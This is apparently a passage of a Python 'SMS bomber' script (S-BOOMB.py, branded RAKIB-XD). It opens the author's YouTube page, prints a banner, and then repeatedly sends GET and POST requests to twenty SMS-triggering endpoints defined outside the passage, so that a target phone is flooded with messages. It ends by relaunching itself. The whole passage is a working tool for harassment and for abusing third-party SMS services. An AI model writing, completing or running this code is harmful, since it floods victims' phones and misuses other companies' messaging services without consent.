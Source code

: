 os.system("xdg-open https://youtube.com/@rakibxd007")
print (logo)
print(f"""\n{ran}\033[1;31m                                                               
\t\033[1;32m                 
\t\033[1;32m                
\t\033[1;32m         
\t\033[1;32m                  
\t\033[1;32m                                           
""")
print(f"\n\t      {ran},----------------------------------,")
print(f"\t{w}      | {r}    AMOUNT ({g}{amo}{r}){w} |   {r}   TIME       {w}|")
print(f"\t      {ran}'----------------------------------'")
for i in range(amo):
	resp1 = requests.get(url1)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp2 = requests.get(url2,headers=headers2)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥  "+w+tim)
	resp3 = requests.post(url3, headers=headers3, data=data3)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp4 = requests.post(url4, headers=headers4, data=data4)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp5 = requests.post(url5, headers=headers5, data=data5)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp6 = requests.post(url6, headers=headers6, data=data6)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp7 = requests.get(url7)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp10 = requests.get(url8,headers=headers8, data=data8)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp11 = requests.get(url9,headers=headers9, data=data9)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp12 = requests.post(url10,headers=headers10, data=data10)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp13 = requests.get(url11,headers=headers11, data=data11)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp14 = requests.post(url12,data=data12)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp8 = requests.post(url13,headers=headers13, data=data13)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp17 = requests.post(url14, headers=headers14, data=data14)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp9 = requests.post(url15, headers=headers15, data=data15)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp19 = requests.post(url16, headers=headers16, data=data16)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp20 = requests.post(url17,data17)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥  "+w+tim)
	resp21 = requests.post(url18, headers=headers18, data=data18)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp21 = requests.post(url19, headers=headers19, data=data19)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	resp21 = requests.post(url20, headers=headers20, data=data20)
	print(f"\n\t\t {ran2}SMS SENT SUCCESFULLY💚  BY 🔥RAKIB-XD🔥 "+w+tim)
	
	
else: 
	input(g+"\n\t\t\tYour Pogram Finished Enter For Continue")
	os.system("clear")
	os.system("python S-BOOMB.py")

